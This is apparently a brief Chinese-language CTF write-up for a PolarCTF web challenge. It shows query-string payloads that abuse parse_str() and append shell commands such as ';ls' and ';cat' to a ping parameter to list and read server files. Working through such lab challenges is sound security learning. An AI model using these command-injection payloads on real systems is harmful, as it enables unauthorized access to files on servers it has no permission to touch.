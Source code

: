 分析flag被禁，@parse_str()函数就是读取一个变量并将其转换为数组的形式

get传一个id，令id=a[0]

a[0]=www.polarctf.com

再构建一个cmd，cmd自带参数ping，由此构建命令

```
?id=a[0]=www.polarctf.com&cmd=127.0.0.1;ls
```

![image-20240125163107371](image/image-20240125163107371.png)

得到文件列表,flag无法直接cat，直接cat ls

```
?id=a[0]=www.polarctf.com&cmd=127.0.0.1;cat 'ls';
```
